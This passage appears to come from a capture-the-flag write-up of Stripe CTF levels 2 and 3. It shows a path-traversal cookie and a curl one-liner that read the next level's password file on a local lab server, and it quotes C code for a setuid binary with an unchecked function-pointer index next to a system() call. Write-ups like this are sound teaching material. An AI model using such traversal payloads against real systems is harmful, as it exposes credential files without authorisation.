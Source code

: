 ```
Cookie: user_details=../../home/level02/.password
```

Interestingly, it is also possible to solve this problem with just one instruction in the command line:

```
$ curl  --user level01:$(cat /home/level01/.password) --digest -b "user_details=../../home/level02/.password" localhost:8002/level02.php
```

Where the flag **--digest** enables HTTP authentication, and the flags **-b** or **--cookie** let us determine the cookie to be sent.

Note: In the LiveCD this level is modified to use Python and [Flask](http://flask.pocoo.org/docs/0.10/). Luckily, I had some previous experience in Flask (check out my [Anti-Social Network]()) and it was pretty easy to spot that the Pyhton code does *exactly* the same thing as the one above.



---
## Level 3: Failure in Input Validation

The third level comes with another **setuid** binary with the purpose of modifying a string:

```
$ /levels/level03
    Usage: ./level03 INDEX STRING
    Possible indices:
    [0] to_upper    [1] to_lower
    [2] capitalize  [3] length
```

The C code is also given:

```

#define NUM_FNS 4

typedef int (*fn_ptr)(const char *);

int to_upper(const char *str)
{(...)}

int to_lower(const char *str)
{(...)}

int capitalize(const char *str)
{(...)}

int length(const char *str)
{(...)}

int run(const char *str)
{
  // This function is now deprecated.
  return system(str);
}

int truncate_and_call(fn_ptr *fns, int index, char *user_string)
{
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}

```